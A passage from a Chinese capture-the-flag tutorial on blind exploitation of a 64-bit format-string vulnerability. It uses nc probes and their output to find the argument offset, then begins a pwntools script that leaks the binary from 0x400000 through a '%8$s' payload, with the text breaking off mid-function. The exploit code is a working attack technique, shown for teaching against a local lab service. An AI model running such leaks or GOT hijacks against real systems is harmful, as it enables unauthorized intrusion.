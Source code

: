 ## 例子2-盲打劫持got

源码以及部署文件均已经在blind_fmt_got文件夹中。

### 确定程序位数

通过简单地测试，我们发现这个程序是格式化字符串漏洞函数，并且程序为64位。

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
%p
0x7fff3b9774c0
```

这次啥也没有回显，又试了试，发现也没啥情况，那我们就只好来泄露一波源程序了。

### 确定偏移

在泄露程序之前，我们还是得确定一下格式化字符串的偏移，如下

```shell
➜  blind_fmt_got git:(master) ✗ nc localhost 9999
aaaaaaaa%p%p%p%p%p%p%p%p%p
aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025
```

据此，我们可以知道格式化字符串的起始地址偏移为6。

### 泄露binary

由于程序是64位，所以我们从0x400000处开始泄露。一般来说有格式化字符串漏洞的盲打都是可以读入'\x00'字符的，，不然没法泄露怎么玩，，除此之后，输出必然是'\x00'截断的，这是因为格式化字符串漏洞利用的输出函数均是'\x00'截断的。。所以我们可以利用如下的泄露代码。

```python
#coding=utf8
from pwn import *

#context.log_level = 'debug'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None

def getbinary():
	addr = 0x400000
	f = open('binary', 'w')
	while addr < 0x401000:
```